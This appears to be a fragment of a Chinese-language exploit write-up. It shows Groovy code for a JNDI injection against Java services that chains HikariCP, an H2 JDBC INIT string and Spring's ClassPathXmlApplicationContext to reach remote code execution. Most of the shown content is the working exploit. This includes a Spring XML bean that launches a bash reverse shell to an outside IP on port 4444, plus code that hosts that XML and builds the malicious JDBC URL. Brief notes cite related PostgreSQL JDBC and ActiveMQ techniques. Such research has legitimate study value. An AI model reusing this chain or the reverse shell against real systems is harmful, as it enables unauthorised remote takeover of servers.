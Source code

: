 ```plain
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value><![CDATA[bash -i >& /dev/tcp/100.109.34.110/4444 0>&1]]></value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
'''

// host the xml on a web server
def server = WebServer.getInstance()
server.serveFile("/exp.xml", content.getBytes())

def xml_url = "http://$server.ip:$server.port/exp.xml"

// invoke URI.create() to create a URI object
list << "SET @uri=URI_CREATE('$xml_url')"
// invoke uri.toString() to transform the type of `xml_url` (from java.lang.String to java.lang.Object) to avoid H2 SQL convert error
// because the return type of INVOKE_METHOD is java.lang.Object
list << "SET @xml_url_obj=INVOKE_METHOD(@uri, 'toString', NULL)"
// instantiate ClassPathXmlApplicationContext
list << "SET @context_clazz=CLASS_FOR_NAME('org.springframework.context.support.ClassPathXmlApplicationContext')"
// the second parameter of INVOKE_CONSTRUCTOR requires java.lang.Object, so we use `xml_url_obj` instead of `xml_url`
list << "CALL INVOKE_CONSTRUCTOR(@context_clazz, @xml_url_obj)"

// use INIT property to execute multi SQL statements, and each statement must be separated by `\;`
def url = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=${list.join('\\;')}\\;"

def ref = new Reference("javax.sql.DataSource", "com.zaxxer.hikari.HikariJNDIFactory", null)
ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
ref.add(new StringRefAddr("jdbcUrl", url));

return ref
```

ClassPathXmlApplicationContext 的利用思路很常见了，在 PostgreSQL JDBC RCE 和 ActiveMQ RCE 中都出现过

需要找到一个能够调用构造函数的静态方法，即通过 invokeConstructor 实例化 ClassPathXmlApplicationContext 加载 XML 实现 RCE

`org.apache.commons.beanutils.ConstructorUtils#invokeConstructor(java.lang.Class<T>, java.lang.Object)`
